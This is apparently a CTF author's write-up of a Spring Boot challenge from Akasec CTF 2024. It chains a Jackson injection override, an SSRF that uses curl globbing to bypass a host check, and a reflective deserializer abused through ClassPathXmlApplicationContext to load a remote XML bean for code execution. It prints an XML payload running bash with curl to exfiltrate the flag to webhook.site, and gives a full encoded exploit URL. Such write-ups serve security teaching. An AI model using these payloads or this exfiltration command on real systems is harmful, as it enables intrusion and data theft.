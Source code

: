 # HackerNickName

this is a JAVA challenge i authored for Akasec CTF 2024. it was a Springboot application that has three flaws that should be chained together to achieve RCE and exfiltrate the flag.

# Details

in `HomeController`, the `post` method handles generating new hacker nicknames:

```java
    @PostMapping(consumes="application/json")
    public void post(@RequestBody @Valid Hacker hacker, HttpServletResponse response) {
        hacker.setNickName(nicknameService.getNickName());
        String token = jwtUtil.generateToken(hacker.getInfo());
        Cookie cookie = new Cookie("jwt", token);
        cookie.setHttpOnly(true);
        cookie.setPath("/");
        response.addCookie(cookie);
    }
```

a new `Hacker` instance is built from the request body, `Hacker` class:

```java
public class Hacker {
    @NotBlank
    private final String firstName;
    @NotBlank
    private final String lastName;
    @NotBlank
    private final String favouriteCategory;
    private final UserRole role;
    private String nickName;

    @JsonCreator
    public Hacker(@JsonProperty(value = "firstName", required = true) String firstName,
                  @JsonProperty(value = "lastName", required = true) String lastName,
                  @JsonProperty(value = "favouriteCategory", required = true) String favouriteCategory,
                  @JacksonInject UserRole hackerRole) {
        this.firstName = firstName;
        this.lastName = lastName;
        this.favouriteCategory = favouriteCategory;
        this.role = hackerRole;
    }

    public Boolean isAdmin() {
        return (role.admin);
    }
    [...]
}
```

`role` attribute is injected using `@JacksonInject`, this is the `ObjectMapper` config:

```java
@Configuration
public class JacksonConfig {
    @Bean
    public ObjectMapper objectMapper() {
        ObjectMapper objectMapper = new ObjectMapper();
        InjectableValues injectableValues = new InjectableValues.Std().addValue(UserRole.class, new UserRole(false));
        objectMapper.setInjectableValues(injectableValues);
        return objectMapper;
    }
}
```

`admin` attribute of `UserRole` is always `false`, but [@JacksonInject](https://fasterxml.github.io/jackson-annotations/javadoc/2.9/com/fasterxml/jackson/annotation/JacksonInject.html) docs notes that it is possible to override the injected value from JSON if `useInput` is not `false` (default `true`):

```
Usually property is not deserialized from JSON, although it possible to have injected value as default and still allow optional override from JSON.

```

using this misconfiguration, you can generate a session as admin:

![admin](assets/admin.png)

once you have admin session, you can then access `AdminController` which is supposed to allow the admin to update the nicknames list:

```java
    @PostMapping("/update")
    public ResponseEntity<String> post(@RequestParam("url") String url, HttpServletRequest request) throws NullPointerException, IOException, InterruptedException {
        if (!isAdmin(request.getCookies()))
            return ResponseEntity.status(401).body("You are not an admin.");
        URL parsedUrl;
        try {
            parsedUrl = new URL(url);
        } catch (MalformedURLException e) {
            return ResponseEntity.status(401).body(e.getMessage());
        }
        if (!parsedUrl.getProtocol().equals("http") || !parsedUrl.getHost().equals("nicknameservice") || parsedUrl.getPort() != 5000)
            return ResponseEntity.status(401).body("Invalid URL");
        ProcessBuilder pb = new ProcessBuilder("curl", "-f", url, "-o", nicknameService.filePath.toString());
        Process p = pb.start();
        p.waitFor();
        //System.out.println(new String(p.getErrorStream().readAllBytes(), StandardCharsets.UTF_8));
        nicknameService.reload();
        return ResponseEntity.ok("updated.");
    }
```

there is another controller named `ExperimentalSerializerController` which accepts only loopback requests, but fist you need to bypass the checks in `AdminController`, notably:

```java
    URL parsedUrl;
        try {
            parsedUrl = new URL(url);
        } catch (MalformedURLException e) {
            return ResponseEntity.status(401).body(e.getMessage());
        }
        if (!parsedUrl.getProtocol().equals("http") || !parsedUrl.getHost().equals("nicknameservice") || parsedUrl.getPort() != 5000)
            return ResponseEntity.status(401).body("Invalid URL");
```

curl binary has a feature named [globbing](https://ec.haxx.se/cmdline/urls/globbing.html) which is on by default (disabled using `-g`), here is an example:

```
user@host:~$ curl "http://{site,host}.host.example.com"
```

that will send an http request to `http://site.host.example.com` and `http://host.host.example.com`, in our case this url will bypass the checks and send http requests to both `http://nicknameservice:5000/asdf` and `http://localhost:8090/asdf`:

```
http://{localhost:8090,@nicknameservice:5000/}/asdf
```

moving on, now that we can access `ExperimentalSerializerController`:

```java
@Controller
@RequestMapping("/ExperimentalSerializer")
public class ExperimentalSerializerController {

    @GetMapping
    public String experimentalSerializer(@RequestParam(value = "serialized", required = false) String serialized, HttpServletRequest request, Model model) {
        if (!request.getRemoteAddr().equals("127.0.0.1"))
            return "redirect:/";
        if (serialized != null)
        {
            HashMap<String, Object> result = ExperimentalSerializer.deserialize(serialized);
            model.addAttribute("result", result.toString());
        }
        return "serializer";
    }
}
```

this is `ExperimentalSerializer.deserialize()`:

```java
    public static HashMap<String, Object> deserialize(String serialized) {
        ObjectMapper mapper = new ObjectMapper();
        HashMap<String, Object> result = new HashMap<String, Object>();
        try {
            List<SerializationItem> dataList = mapper.readValue(serialized, new TypeReference<List<SerializationItem>>() {});
            for (SerializationItem item : dataList) {
                switch (item.type) {
                    case "string" -> result.put(item.name, item.value);
                    [...]
                    case "object" -> {
                        try {
                            String[] args = item.value.split("\\|");
                            if (args.length == 2) {
                                Class<?> clazz = Class.forName(args[0]);
                                Constructor<?> constructor = clazz.getConstructor(String.class);
                                Object instance = constructor.newInstance(args[1]);
                                result.put(item.name, instance);
                            } else if (args.length == 3) {
                                Class<?> clazz = Class.forName(args[0]);
                                Constructor<?> constructor = clazz.getConstructor(String.class, String.class);
                                Object instance = constructor.newInstance(args[1], args[2]);
                                result.put(item.name, instance);
                            } else {
                                result.put(item.name, "Error: currently only <= 2 arguments are supported.");
                            }
                        } catch (Exception e) {
                            result.put(item.name, null);
                        }
                    }
                }
            }
            return result;
        } catch (Exception e) {
            System.out.println(e.getMessage());
            return (result);
        }
    }
```

you can notice that you can intiate any class, with 1 or 2 constructor parameters, as long as type is `String`, in this case you can use `org.springframework.context.support.ClassPathXmlApplicationContext` which loads XML application context from a remote location, XML application context can define Beans which can be abused to intiaite any java class and call its methods, it also evaluates SpEL expressions used in the XML ([read more](https://vulncheck.com/blog/cve-2023-44604-activemq-in-memory)):

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>curl "https://webhook.site/?flag=$(/readflag|base64)"</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

final `url` for `/admin/update` would be:

```
url=http://{localhost:8090,@nicknameservice:5000/}/ExperimentalSerializer?serialized=%25%35%62%25%37%62%25%32%32%25%37%34%25%37%39%25%37%30%25%36%35%25%32%32%25%33%61%25%32%32%25%36%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%32%25%32%63%25%32%32%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%32%25%33%61%25%32%32%25%36%66%25%37%32%25%36%37%25%32%65%25%37%33%25%37%30%25%37%32%25%36%39%25%36%65%25%36%37%25%36%36%25%37%32%25%36%31%25%36%64%25%36%35%25%37%37%25%36%66%25%37%32%25%36%62%25%32%65%25%36%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%32%65%25%37%33%25%37%35%25%37%30%25%37%30%25%36%66%25%37%32%25%37%34%25%32%65%25%34%33%25%36%63%25%36%31%25%37%33%25%37%33%25%35%30%25%36%31%25%37%34%25%36%38%25%35%38%25%36%64%25%36%63%25%34%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%37%63%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%38%25%36%66%25%37%33%25%37%34%25%32%66%25%37%38%25%36%64%25%36%63%25%32%65%25%37%38%25%36%64%25%36%63%25%32%32%25%32%63%25%32%32%25%36%65%25%36%31%25%36%64%25%36%35%25%32%32%25%33%61%25%32%32%25%35%33%25%36%34%25%32%32%25%37%64%25%35%64
```

